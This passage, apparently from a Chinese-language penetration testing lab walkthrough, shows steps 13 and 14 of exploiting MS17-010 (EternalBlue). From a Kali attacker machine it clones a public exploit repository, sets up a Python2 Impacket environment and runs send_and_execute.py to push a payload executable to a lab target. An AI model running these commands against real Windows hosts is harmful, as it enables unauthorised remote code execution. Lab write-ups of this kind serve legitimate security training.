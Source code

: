```
cd /tmp
git clone [https://github.com/helviojunior/MS17-010.git](https://github.com/helviojunior/MS17-010.git)
```

13.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

在 Impacket 文件夹中启动 Python2 环境

```
cd /opt/impacket
sudo virtualenv impacket-venv -p $(which python2)
source impacket-venv/bin/activate
```

14.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

在 Python2 环境'(impacket-venv)'中，使用我们的有效负载文件(/tmp/ruby-xp.exe)对我们的目标(192.168.62.149)运行漏洞利用。

```
python2 /tmp/MS17-010/send_and_execute.py 192.168.62.149 /tmp/ruby-xp.exe
```

![](img/40a46088f72d84f9c3d435ca7f7222f8.png)

忽略错误错误服务超时

查看我们的结果:

SMB 监听器
